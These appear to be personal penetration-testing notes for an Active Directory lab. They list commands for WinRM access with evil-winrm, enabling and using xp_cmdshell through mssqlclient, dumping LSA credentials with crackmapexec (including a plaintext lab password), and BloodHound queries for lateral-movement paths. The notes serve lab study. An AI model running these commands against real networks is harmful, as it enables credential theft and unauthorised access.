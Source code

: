 ## Use evil-winrm to connect WINRM - Linux

```bash
evil-winrm -i 10.129.201.234 -u forend

```

## SQL access through mssqlclient - Linux


```bash
mssqlclient.py INLANEFREIGHT/damundsen@172.16.5.150 -windows-auth
```

once we are connected typing **Help **we'll be show various options.

Execute **shell command** through mssqlclient. First enable the cmdshell

```bash
enable_xp_cmdshell
```

To Execute the command

```bash
xp_cmdshell whoami /priv
```

## CME dump auto log

with `‒lsa` its possible to dump in memory login password

```bash
sudo proxychains crackmapexec smb 172.16.6.50 -u svc_sql -p lucky7 --lsa
```

# Bloodhunt Raw query

Enumerate memeber with the ability to connect thorugh **WINRM** to the target

```bash
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

Enumerate account with the **SQL account** enable

```bash
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2

```

# Workaround for double hop problem

## Evil-WinRM
